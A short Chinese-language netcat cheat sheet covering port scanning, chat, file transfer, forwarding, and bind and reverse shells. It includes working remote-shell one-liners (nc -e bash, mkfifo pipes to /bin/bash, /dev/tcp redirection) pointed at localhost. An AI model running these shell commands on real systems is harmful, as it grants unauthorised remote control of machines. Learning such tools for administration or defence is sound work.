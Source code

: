 ## nc的使用

nc 扫描端口
```
nc -v 127.0.0.1 801
nc -v -i 1 127.0.0.1 801
nc -v -z -i 1 127.0.0.1 801
nc -v -z -i 1 127.0.0.1 800-900
不是所有版本的nc都支持 i z 参数，不是所有版本的 nc 支持批量端口扫描
```



nc 实现聊天
```
最简单的一对一
    nc -l 801
    nc 127.0.0.1 801
```

nc 传输文件
```
接收端先运行一个 nc
    nc -l 801 > output.txt
发送端再运行一个 nc
    nc 127.0.0.1 801 < input.txt
```

nc 实现一个转发服务
```
nc 自己调用自己
nc -v -l -k -p 9901 -e "nc 127.0.0.1 9902"
nc -v -l -k -p 9901 -e "bash -c \"nc 127.0.0.1 9902\""
使用管道
mkfifo pipe1;cat pipe1 | nc -v -l -p 9901 | /bin/bash -c "nc 127.0.0.1 9902" 2>&1 1>pipe1;
```

nc 实现远程 shell
```
远程 shell
    nc -v -l -p 9901 -e "bash"
控制端
    nc -v 127.0.0.1 9901
即使没有 -e 参数，也能通过管道实现各种奇技淫巧，虽然管道的奇技淫巧只能处理单个连接
    mkfifo pipe1;cat pipe1 | nc -v -l -p 9901 | /bin/bash 2>&1 1>pipe1;
```

nc 实现远程反向 shell
```
控制端先运行一个 nc
    nc -v -l -p 9901
目标机器上连接控制机器的 9901 端口，并将其shell绑定到该连接上
    nc -v 127.0.0.1 9901 -e "bash"
    mkfifo pipe1; cat pipe1 | nc -v 127.0.0.1 9901 | /bin/bash 2>&1 1>pipe1;
    exec 3<>/dev/tcp/127.0.0.1/9901; exec 0>&3; exec 1<&3; /bin/bash 2>&1;
    exec 3<>/dev/tcp/127.0.0.1/9901; /bin/bash 2>&1 0>&3 1<&3; 这种写法似乎更好
```
